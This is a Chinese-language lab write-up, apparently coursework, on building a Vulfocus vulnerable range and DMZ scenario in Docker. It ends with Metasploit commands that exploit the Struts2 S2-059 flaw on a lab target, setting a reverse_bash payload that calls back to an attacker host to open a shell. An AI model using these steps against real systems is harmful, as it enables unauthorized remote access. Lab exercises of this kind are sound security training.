# 网络空间安全实践
### vulfocus 环境搭建
#### docker安装
参考https://www.kali.org/docs/containers/installing-docker-on-kali/

安装后输入
```
docker --version
```
命令查看docker版本


#### 拉取vulfocus镜像

在此运行拉取命令
```
docker pull vulfocus/vulfocus:latest
```
成功拉取。

使用bash start.sh命令运行容器启动后需要选择LOCAL_IP，直接默认回车使用NAT网络下IP地址，成功运行


接着使用主机浏览器访问虚拟机的ip进入vulfocus首页

完成vulfocus环境的搭建
## DMZ环境搭建
### 网卡创建
首先根据下面的步骤依次建立两个网卡,网卡的名称为DMA和核心网，不和虚拟机网卡重复即可已经有的重名网卡。需要进行删除
### DMZ场景编排
对 DMZ.zip解压后可以发现，其中包含了去创建一个场景所需的所有信息，包括网卡信息和镜像配置等信息

首先确定需要的镜像有哪些：
```
cat raw-content.json | jq . | grep image_name
```
可知需要安装是三个不同的镜像文件：
```
vulshare/nginx-php-flag:latest
vulfocus/struts2-cve_2020_17530:latest
vulfocus/weblogic-cve_2019_2725:latest
```
其中第一个镜像存在运行问题，需要替换为:
```
c4pr1c3/vulshare_nginx-php-flag
```
执行docker pull命令拉取镜像，然后再通过 Vulfocus 的 GUI 界面导入本地镜像

完成镜像拉取后，在环境编排管理页面中进行编排，详情如下：
需将第一个端口进行开放

完成后进行保存并发布，即可在环境中开始


将访问地址替换为虚拟机的ip即可进行web访问

### 流量捕获
在启动了场景之后，可以通过下面的命令开启对 struts2-cve_2020_17530的流量捕获
```
container_name="<替换为目标容器名称或ID>"
docker run --rm --net=container:${container_name} -v ${PWD}/tcpdump/${container_name}:/tcpdump kaazing/tcpdump
```
该命令在当前路径下创建了一个 tcpdump目录，并且将对指定容器监控的流量捕获到目录中


## DMZ入口标靶
入口靶标页面如下，记录目标 ip 和端口号

192.168.37.5 端口号 30667
进入攻击机，更新并初始化 metasploit
```
sudo apt install -y metasploit-framework
sudo msfdb init
```

由于已经知道了漏洞为 struts2代码执行漏洞，所以进行相关搜索搜索：
```
search struts2 type:exploit
search S2-059 type:exploit
```

使用 info可以指定序号或名称查看详情
```
info 0
```
使用 use可以使用指定的exp
```
use 0
```
使用 show options可以查看exp的详细参数配置,使用 show payloads可以查看可用 exp payloads：
```
show options
show payloads
```


选择一个需要的 payload使用并根据参数列表的内容修改靶机和攻击机的参数
```
set payload payload/cmd/unix/reverse_bash   #设置payload
set RHOSTS 192.168.37.5  #靶机IP
set RPORT  30667   #靶机目标端口  
set LHOST  192.168.131.6   #攻击者主机IP 
```

执行攻击
```
run -j 
```
使用 sessions命令查看列表，打开 shell执行命令
```
sessions -l
```
使用sessions -1获取所有活动的会话
```
sessions -i 2
```
使用sessions -i -2与会话2进行交互即可得到flag

### 靶标发现